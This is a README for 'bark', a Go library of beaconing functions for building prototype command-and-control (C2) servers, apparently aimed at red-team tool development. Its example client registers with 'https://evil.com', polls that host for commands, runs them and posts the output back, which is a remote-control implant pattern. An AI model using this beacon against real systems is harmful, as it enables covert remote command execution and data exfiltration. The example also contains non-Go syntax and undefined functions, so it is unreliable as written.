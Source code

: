 # Bark
---

**WARNING**: This repo is still in active development and is subject to massive changes.

**bark** is a simple HTTP/QUIC RESTful beaconing package for use in prototype/template C2's.

The idea behind bark is to save you rewriting a beaconing package everytime you want to try and create a new C2 to test an idea out. 

It's deliberately simple in functionality, so that you can implement more complex logic yourself as and when desire.

## Basic Usage:
There are three stages to a bark communication:
1. Register (Get Request)
2. Beacon until a command is returned (Get Request)
3. PostOutput (Post request)

Each of these is handled as `[]byte` so that you can send any "byte-able" format and interpret the response however you please.

### Client-Side
Basic beaconing behaviour:
```go
package main

import (
    "os"

    "github.com/salukikit/bark"
)

func RunCmd(cmd string) string {

    output := doStuff(cmd)

}

func main() {

    httpconf := bark.NewHTTPBarker("mynewhttpcomms")

    httpconf.Reguri = "/register"
    httpconf.Barkuri = "/tasks"
    httpconf.Posturi = "/output"

    //root url should include the protocol, e.g. http:// or https://
    rooturl = "https://evil.com"

    //update our barker with our new uri's
    bark.UpdateHTTPBarker("mynewhttpcomms", &httpconf)

    while x != true {
        resp, err := bark.Register("mynewhttpcomms",rooturl)
        if err != nil {
            time.Sleep(1000)
            return 
        }
        
        //do your decryption/verification, maybe get some fancy new urls after registering, it's all up to you!
        newurl, ok := YourDecryptFunc(resp)
        if  ok {
            //Registered!
            httpconf.Barkuri = newurl
            bark.UpdateHTTPBarker("mynewhttpcomms", &httpconf)
            x = true
        }
    }

    //Now we start the beacon loop
    for {

        encCmd, err := bark.Beacon("mynewhttpcomms",rooturl)
        if err != nil {
            time.Sleep(1000)
            return 
        }
        cmd, ok := YourDecryptFunc(encCmd)
        if  ok {
            //Command is good, run command
            output := RunCmd(cmd)
            encdata := Yourencryptionfunc(output)
            bark.Postout("mynewhttpcomms",rooturl, encdata)
            
        } time.Sleep(1000)
    }
}
```


Currently it only supports HTTP(s). 

TODO:
* Multiple URL Helper function
* Retry on fails
* Add jitter helper/functionality